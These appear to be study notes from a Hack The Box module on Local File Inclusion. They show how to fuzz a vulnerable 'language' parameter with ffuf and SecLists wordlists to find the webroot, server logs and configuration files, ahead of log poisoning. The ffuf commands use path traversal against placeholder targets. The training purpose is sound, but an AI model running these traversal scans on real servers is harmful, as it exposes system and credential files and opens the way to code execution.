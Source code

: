 To start testing for LFI after exposing parameters, we can automate it using ffuf, one of the best wordlists we can use is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) and the command would look something like this :
`CSmarwen@htb[/htb]**$** ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`

## Fuzzing Server Files

- Server Webroot: this is the process of finding as much information about the server, where it keeps uploads. To do so, we need to fuzz for the location of our index.php file using once again LFI, the command would look something like this 
`CSmarwen@htb[/htb]**$** ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287`

this will return where the index.php file is in the filesystem.

### Fuzzing Server Logs and Config files

As we have seen in the previous section, we need to be able to identify the correct logs directory to be able to perform the log poisoning attacks we discussed. Furthermore, as we just discussed, we may also need to read the server configurations to be able to identify the server webroot path and other important information (like the logs path!).

To do so, we may also use the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, as it contains many of the server logs and configuration paths we may be interested in. If we wanted a more precise scan, we can use this [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) or this [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows), though they are not part of `seclists`, so we need to download them first. A command would look something like this :
`CSmarwen@htb[/htb]**$** ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287`

We need to be aware about what’s the server’s os before doing this, because knowing this would get us the most optimal wordlist to get all the paths that we need for the exploitation. The command would look something like this 
`CSmarwen@htb[/htb]**$** ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287`

after reading the content of the config file we can investigate any env variables in this file /etc/apache2/envvars;
     
            
